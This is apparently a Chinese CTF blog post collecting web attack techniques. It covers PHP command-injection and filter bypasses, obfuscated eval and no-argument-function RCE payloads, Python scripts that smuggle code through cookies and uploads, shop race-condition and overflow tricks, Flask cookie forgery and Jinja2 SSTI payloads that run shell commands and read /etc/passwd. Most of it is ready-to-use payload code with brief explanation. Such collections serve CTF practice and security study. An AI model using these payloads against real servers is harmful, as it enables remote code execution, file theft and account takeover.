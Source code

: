 ```yaml
---
layout: post
title: "web常见攻击方法"
date: 2018-10-23 15:23:57 +0800
description: ""
category: ctf/web
tags: []
---
```


- python -m SimpleHTTPServer 80
- grep -ri flag . #recursive/insensitive grep flag string in current directory files
- 使用`$_REQUEST[]`接收参数的代码，如果同时使用GET和POST两种方式传相同类型的参数，那么POST的参数会覆盖掉GET的参数，最终`$_REQUEST[]`接受的参数是POST过来的参数
- cat被过滤：`tac`，`nl`，`/???/c?t`，`sort`，`ca\t`

## 代码审计

#### 直接命令执行

###### 极限利用（限制可执行命令的长度和字符类型）：[Web-2，安恒月赛-2018-09](http://skysec.top/2018/09/24/2018%E5%AE%89%E6%81%92%E6%9D%AF-9%E6%9C%88%E6%9C%88%E8%B5%9BWriteup/#Web2)

```php
    if(strlen($code)>35){ #限制长度小于等于35
        die("Long.");
    }
    if(preg_match("/[A-Za-z0-9_$]+/",$code)){ #限制不能使用大小写字符、数字、下划线和美元符
        die("NO.");
    }
    @eval($code);
```

原理：利用通配符`? * %`执行命令：`/???/??? => /bin/cat `，利用模板渲染回显结果：`<?=``?> `，完整利用步骤如下：

```
?><?=`/???/???%20/???/???/????/*`?>
"/bin/cat /var/www/html/index.php" #读取源码
?><?=`/???/???%20/????`;?>
"/bin/cat /flag" #读取flag
```

###### [命令注入及绕过waf](https://www.jianshu.com/p/000a4ad1b933)：ezsql（安恒月赛-2018-11），PingPingPing（GXY-CTF-2019）

- 分割命令用`;`或者逻辑运算符`&&`：`id;id`，`id&&id`

- 过滤空格：`base64<flag`，`$IFS`，`${IFS}`，`$IFS$9`，`%09`，`<` #$9只是当前系统shell进程的第九个参数的持有者，它始终为空字符串。

- 过滤`/`：`expr substr $(pwd) 1 1`

- 过滤flag：base64方式`?ip=127.0.0.1;echo$IFS$9Y2F0IGZsYWcucGhw|base64$IFS$9-d|sh`；bash方式`?ip=127.0.0.1;a=ag;b=fl;cat$IFS$9$b$a.php`；两者结合

  ```sh
  a=`echo$IFS$9ZmxhZy5waHA=|base64$IFS$9-d`;tac$IFS$9$a
  cat$IFS$9`ls`
  ```

###### 进制转换：[Love-Math，CISCN-2019](https://www.cnblogs.com/20175211lyz/p/11588219.html)

```php
//base_convert(37907361743,10,36) => 将10进制转36进制，得到a-z，"hex2bin"
//dechex(1598506324) => 将十进制转换为十六进制，"5f474554"
//$pi=hex2bin("5f474554") => $pi="_GET"   //hex2bin将一串16进制数转换为二进制字符串，下划线、空格、星号等特殊符号无法直接通过base_convert进制转换，因此需要借助hex2bin
//($$pi){pi}(($$pi){abs}) => ($_GET){pi}($_GET){abs}  //{}可以代替[]
$pi=base_convert(37907361743,10,36)(dechex(1598506324));($$pi){pi}(($$pi){abs})&pi=system&abs=cat flag.php
//(base_convert(53179,10,36)=1517) ^ (base_convert(110136,10,36)=nrtc) = _GET
0=system&1=cat%20flag.php&c=$pi=base_convert;$pi=$pi(53179,10,36)^$pi(110136,10,36);$$pi{0}($$pi{1})

//base_convert(696468,10,36) => "exec"
//$pi(8768397090111664438,10,30) => "getallheaders"
//exec(getallheaders(){1})
$pi=base_convert,$pi(696468,10,36)($pi(8768397090111664438,10,30)(){1}) //再通过BP设置HTTP头：1: cat flag.php

//exec('hex2bin(dechex(109270211257898))') => exec('cat f*')
($pi=base_convert)(22950,23,34)($pi(76478043844,9,34)(dechex(109270211257898)))

//system('cat'.dechex(16)^asinh^pi) => system('cat *')
base_convert(1751504350,10,36)(base_convert(15941,10,36).(dechex(16)^asinh^pi)) //'10'^'as'^'pi'=>' *'
```

###### [无参函数RCE](http://www.pdsdt.lovepdsdt.com/index.php/2019/11/06/php_shell_no_code/)：[禁止套娃](http://www.pdsdt.lovepdsdt.com/index.php/2019/12/23/gxy_ctf-ginkgo/)（GXYCTF-2019），[boring_code](https://www.cnblogs.com/BOHB-yunying/p/11616311.html)（bytectf-2019）

```php
if(';' === preg_replace('/[a-z|\-]+\((?R)?\)/', NULL, $_GET['exp'])) {
  if (!preg_match('/et|na|nt|info|dec|bin|hex|oct|pi|log/i', $code)) {
#(?R)? recurses the entire pattern
#preg_replace的主要功能无限嵌套匹配纯小写字母和-的函数，替换为空，最后只剩下;，例如：aaa(bbb(ccc()))这种，带参数的aaa('bbb')是不允许进行传入的
#preg_match的主要功能就是过滤函数，把一些常用不带参数的函数关键部分都给过滤了，需要去构造别的方法去执行命令

getcwd() 函数返回当前工作目录。
scandir() 函数返回指定目录中的文件和目录的数组。
dirname() 函数返回路径中的目录部分，结合getcwd返回上一级目录。
chdir() 函数改变当前的目录。
readfile/readgzfile/highlight_file/show_source()  输出一个文件
current/pos() 返回数组中的当前单元, 默认取第一个值
reset() 函数将内部指针指向数组中的第一个元素，并输出
next() 函数将内部指针指向数组中的下一个元素，并输出。
end()  将内部指针指向数组中的最后一个元素，并输出。
array_rand() 函数返回数组中的随机键名，或者如果您规定函数返回不只一个键名，则返回包含随机键名的数组。
array_flip() 反转/交换数组中所有的键名以及它们关联的键值，结合array_rand遍历所有键值
array_reverse() 以相反的元素顺序返回数组
array_slice() 函数在数组中根据条件取出一段值，并返回
chr() 函数从指定的 ASCII 值返回字符。
hex2bin() 转换十六进制字符串为二进制字符串
getenv() 获取一个环境变量的值(在7.1之后可以不给予参数)
```

- Apache环境，利用getallheaders()

在HTTP头中加入`：system('ls /tmp');`

`eval(end(getallheaders()))`

- 其他环境


1. 利用get_defined_vars()

`eval(end(current(get_defined_vars())));&sky=system('ls%20/tmp');`当get_defined_vars返回的列表第一项是`_GET`可用，否则需要array_rand(array_flip())遍历；end取最后一个元素的值`system('ls%20/tmp')`。如果网站过滤了`_GET/_POST/_COOKIE`，则需要从`_FILES`下手：

```python
import requests
from io import BytesIO
payload = "system('ls /tmp');".encode('hex')
files = {
  payload: BytesIO('sky cool!')
}
r = requests.post('http://localhost/?code=eval(hex2bin(array_rand(end(get_defined_vars()))));', files=files, allow_redirects=False)
print r.content
```

2. 利用session_id()和hex2bin

```python
import requests
url = 'http://localhost/?code=eval(hex2bin(session_id(session_start())));' #session_start()开启session会话
payload = "echo 'sky cool';".encode('hex')
cookies = {
	'PHPSESSID':payload
}
r = requests.get(url=url,cookies=cookies)
print r.content
```

3. 利用`scandir/dirname/chdir/getcwd`目录操作以及`readfile/readgzfile/highlight_file`读文件操作

```php
pos(localeconv()) #localeconv数组第一个元素是.
chr(ceil(sinh(cosh(tan(floor(sqrt(floor(phpversion())))))))) #chr(46)得到.
chr(pos(localtime(time))) #localtime(time)返回时间数组，pos取秒得到0-60内的一个数，设置Burpsuite一秒间隔发包，第46秒得到.
chr(ord(hebrevc(crypt(phpversion())))) #MD5加密后反向显示，由于crypt(str,salt)的salt值会随机生成，因此需要多请求几次得到.开始的字符串，转ord，再chr得到.

show_source(next(array_reverse(scandir(pos(localeconv())))));
print_r(highlight_file(next(array_reverse(scandir(pos(localeconv()))))));
echo(readfile(end(scandir(reset(localeconv())))));
echo(readfile(end(scandir(chr(pos(localtime(time(chdir(next(scandir(chr(ceil(sinh(cosh(tan(floor(sqrt(floor(phpversion()))))))))))))))))))); #chdir(next(scandir(.)读上一级目录
```

## 购物商城

#### 条件竞争&整数溢出：[itshop，护网杯-2018](http://skysec.top/2018/10/13/2018%E6%8A%A4%E7%BD%91%E6%9D%AF-web-writeup/#ltshop)

一个账户的两个登陆同时买辣条，只会扣一次钱，却会得到两个辣条，利用burpsuite进行条件竞争。

整数溢出：

int： `2**32-1 = 4294967295`

long： `2**63 -1 = 9223372036854775807`

unsignedlong： `2**64-1 = 18446744073709551615`

由于5个辣条兑换1个辣条之王，构造兑换数量，使兑换数量*5溢出，小于已有辣条数量即可，因此兑换数量为：

```python
i = 2**64 // 5 + 1 # 3689348814741910324
j = i * 5 % (2 ** 64) # 4
```

#### 伪造购物用户：[ezshop，安恒月赛-2018-10](https://www.smi1e.top/?p=119#ezshop)

查询数据库user表，查到admin的用户id，订单支付的时候，将当前用户id修改为admin的用户id，伪造签名，从而使用admin的账号代为支付。

## Python站

#### flask-session伪造：[留言板，中原工学院-2018](https://mp.weixin.qq.com/s/BMsWmiy9Hs0BRqr9EibThQ)

利用[Flask-session Cookie Decoder/Encoder](https://github.com/noraj/flask-session-cookie-manager)伪造admin的cookie，必须使用`python3`。

```powershell
>python3 D:\ctf\tools\packet\flask-session-cookie-manager\session_cookie_manager.py decode -c eyJfZmxhc2hlcyI6W3siIHQiOlsibWVzc2FnZSIsIlx1NzY3Ylx1NWY1NVx1NjIxMFx1NTI5ZiJdfV0sIm5hbWUiOiJ0ZXN0In0.XCLoGg.hkrHrcE6cV_TTN8o1UCEvQjmpik -s dropseckey123
{'_flashes': [('message', '登录成功')], 'name': 'test'}
>python3 D:\ctf\tools\packet\flask-session-cookie-manager\session_cookie_manager.py encode -t "{'_flashes': [('message', '登录成功')], 'name': 'admin'}" -s dropseckey123
eyJfZmxhc2hlcyI6W3siIHQiOlsibWVzc2FnZSIsIlx1NzY3Ylx1NWY1NVx1NjIxMFx1NTI5ZiJdfV0sIm5hbWUiOiJhZG1pbiJ9.XCLpjw.3pQY5fDClFG0yNTv2EZKyp6S_eE
```

#### [flask之ssti模板注入](https://www.cnblogs.com/20175211lyz/p/11425368.html，https://xz.aliyun.com/t/3679)：（[flask](https://wiki.merak.codes/writeup/NJUPT-2019)，NCTF-2019），（[EasyFlask](https://www.gem-love.com/ctf/1799.html#EasyFlask)，安恒月赛-2020-02）

成因：代码中使用`render_template_string`代替`render_template`，直接调用用户输入作为模板，当用户输入中包含`{{...}}`则会作为模板解释，从而导致注入。

利用：通过`''`，`[]`，`()`等数据结构，配合`__class__.__mro__[2]`或者`.__class__.__bases__[0]`找到object类，再通过`__subclasses__()`找到可用子类（FILE (40)或warnings.WarningMessage (59)），结合相应的函数，如读文件或系统调用，进行利用：

```python
#Python 2.7
''.__class__.__mro__[2].__subclasses__()[40]('inst.ini').read() #read file
#run os command
().__class__.__bases__[0].__subclasses__()[59].__init__.__globals__['linecache'].__dict__['os'].popen('ls').read()
().__class__.__bases__[0].__subclasses__()[59].__init__.__globals__['__builtins__']['eval']('__import__("os").popen("ls").read()')

#Python 3
().__class__.__bases__[0].__subclasses__()[177].__init__.__globals__['__builtins__']['open']('inst.ini').read() #read file
#run os command
"".__class__.__bases__[0].__subclasses__()[128].__init__.__globals__['popen']('dir').read()
().__class__.__bases__[0].__subclasses__()[177].__init__.__globals__['__builtins__']['eval']("__import__('os').popen('whoami').read()")

#过滤关键字
{{''.__class__.__mro__.__getitem__(2).__subclasses__().pop(59).__init__.func_globals.linecache.os.popen('cat /f'+'lag').read()}} #字符串拼接
{{[].__getattribute__('X19jbGFzc19f'.decode('base64')).__base__.__subclasses__()[40]("/etc/passwd").read()}} #base64
{{[].class.base.subclasses()[40](('galf/'%7Creverse)).read()}} #jinja语法，反向

#过滤[]，利用__getitem__(2)或者pop(40)，下例中x4=__getitem__
#过滤.，利用原生JinJa2函数|attr()
#过滤_，利用request.args通过GET或者POST传参
{{()|attr(request['args']['x1'])|attr(request['args']['x2'])|attr(request['args']['x3'])()|attr(request['args']['x4'])(233)|attr(request['args']['x5'])|attr(request['args']['x6'])|attr(request['args']['x4'])(request['args']['x7'])|attr(request['args']['x4'])(request['args']['x8'])(request['args']['x9'])}}?x1=__class__&x2=__base__&x3=__subclasses__&x4=__getitem__&x5=__init__&x6=__globals__&x7=__builtins__&x8=eval&x9=__import__("os").popen('想要执行的命令').read()
```

